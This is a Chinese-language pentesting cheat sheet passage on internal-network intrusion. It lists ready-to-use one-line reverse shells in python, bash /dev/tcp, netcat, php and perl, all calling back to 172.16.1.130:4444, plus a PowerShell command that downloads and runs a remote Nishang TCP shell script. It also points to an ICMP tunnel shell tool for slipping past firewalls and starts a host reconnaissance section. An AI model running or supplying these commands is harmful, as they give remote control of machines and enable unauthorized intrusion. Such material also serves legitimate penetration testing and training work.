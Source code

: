 常用一句话反弹shell：

```sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.16.1.130",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

bash -i >& /dev/tcp/172.16.1.130/4444 0>&1

nc 172.16.1.130 4444 -t -e /bin/bash

php -r '$sock=fsockopen("172.16.1.130",4444);exec("/bin/sh -i <&3 >&3 2>&3");'

perl -e 'use Socket;$i="172.16.1.130";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh \-i");};'


powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/9a3c747bcf535ef82dc4c5c66aac36db47c2afde/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp
\-Reverse -IPAddress 172.16.1.130 -port 4444
```

## ICMP隧道反弹shell

[工具GitHub](https://github.com/bdamele/icmpsh)

有时候防火墙可能对tcp进行来处理，然而对imcp并没有做限制的时候，可以使用icmp弹shell。

直接跑run.sh，就OK，在靶机下运行生成的命令。

# 5.信息收集

## 基本命令

### 查看当前网卡和IP信息：

可以看到通过查看网卡信息可以判断出当前机器是否在域内，以及是否是⼀台域机器

![image-20220317175559094](内网渗透&横向移动/image-20220317175559094.png)
